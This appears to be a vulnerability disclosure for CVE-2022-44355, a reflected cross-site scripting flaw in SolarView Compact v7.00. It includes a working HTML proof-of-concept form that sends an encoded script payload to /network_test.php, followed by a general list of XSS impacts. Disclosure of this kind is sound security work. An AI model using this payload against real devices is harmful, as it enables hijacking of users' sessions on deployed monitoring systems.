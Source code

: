 # Cross-site Scripting (XSS) in all SolarView Compact v7.00

## Description
CVE-2022-44355
Cross-site Scripting (XSS) - Reflected in SolarView Compact v7.0 via crafted POST request to /network_test.php

## POC

When someone opens this html file, or we can add it into our website, XSS will execute.
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://{HOST}/network_test.php" method="POST">
      <input type="hidden" name="host" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="command" value="test&apos;&lt;script&gt;alert&#40;'XSS_By_Strik3r'&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Impact
The consequence of an XSS attack is the same regardless of whether it is stored or reflected (or DOM Based). The difference is in how the payload arrives at the server. If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

- Perform any action within the application that the user can perform.
- View any information that the user is able to view.
- Modify any information that the user is able to modify.
- Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.
